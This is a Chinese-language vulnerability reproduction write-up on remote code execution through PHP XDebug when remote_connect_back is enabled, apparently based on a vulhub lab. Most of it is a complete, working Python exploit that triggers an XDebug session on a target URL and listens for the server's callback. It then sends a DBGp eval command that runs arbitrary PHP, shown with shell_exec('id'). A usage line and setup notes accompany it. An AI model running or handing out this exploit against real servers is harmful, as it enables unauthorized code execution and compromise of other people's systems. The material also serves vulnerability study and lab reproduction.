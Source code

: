 Php XDebug 远程调试漏洞
=======================

一、漏洞简介
------------

XDebug是PHP的一个扩展，用于调试PHP代码。如果目标开启了远程调试模式，并设置`remote_connect_back = 1`：

    xdebug.remote_connect_back = 1
    xdebug.remote_enable = 1

这个配置下，我们访问`http://www.0-sec.org/index.php?XDEBUG_SESSION_START=phpstorm`，目标服务器的XDebug将会连接访问者的IP（或`X-Forwarded-For`头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。

二、漏洞影响
------------

三、复现过程
------------

因为需要使用dbgp协议与目标服务器通信，所以无法用http协议复现漏洞。

我编写了一个漏洞复现脚本，指定目标web地址、待执行的php代码即可：

    # 要求用python3并安装requests库
    python3 exp.py -t http://www.0-sec.org:8080/index.php -c 'shell_exec('id');'
    #!/usr/bin/env python3
    import re
    import sys
    import time
    import requests
    import argparse
    import socket
    import base64
    import binascii
    from concurrent.futures import ThreadPoolExecutor


    pool = ThreadPoolExecutor(1)
    session = requests.session()
    session.headers = {
        'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
    }

    def recv_xml(sock):
        blocks = []
        data = b''
        while True:
            try:
                data = data + sock.recv(1024)
            except socket.error as e:
                break
            if not data:
                break

            while data:
                eop = data.find(b'\x00')
                if eop < 0:
                    break
                blocks.append(data[:eop])
                data = data[eop+1:]

            if len(blocks) >= 4:
                break
        
        return blocks[3]


    def trigger(url):
        time.sleep(2)
        try:
            session.get(url + '?XDEBUG_SESSION_START=phpstorm', timeout=0.1)
        except:
            pass


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='XDebug remote debug code execution.')
        parser.add_argument('-c', '--code', required=True, help='the code you want to execute.')
        parser.add_argument('-t', '--target', required=True, help='target url.')
        parser.add_argument('-l', '--listen', default=9000, type=int, help='local port')
        args = parser.parse_args()
        
        ip_port = ('0.0.0.0', args.listen)
        sk = socket.socket()
        sk.settimeout(10)
        sk.bind(ip_port)
        sk.listen(5)

        pool.submit(trigger, args.target)
        conn, addr = sk.accept()
        conn.sendall(b''.join([b'eval -i 1 -- ', base64.b64encode(args.code.encode()), b'\x00']))

        data = recv_xml(conn)
        print('[+] Recieve data: ' + data.decode())
        g = re.search(rb'<\!\[CDATA\[([a-z0-9=\./\+]+)\]\]>', data, re.I)
        if not g:
            print('[-] No result...')
            sys.exit(0)

        data = g.group(1)

        try:
            print('[+] Result: ' + base64.b64decode(data).decode())
        except binascii.Error:
            print('[-] May be not string result...')

![1
1.png](./.resource/PhpXDebug远程调试漏洞/media/rId24.png)

**重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**

参考链接
--------

> https://vulhub.org/\#/environments/php/xdebug-rce/
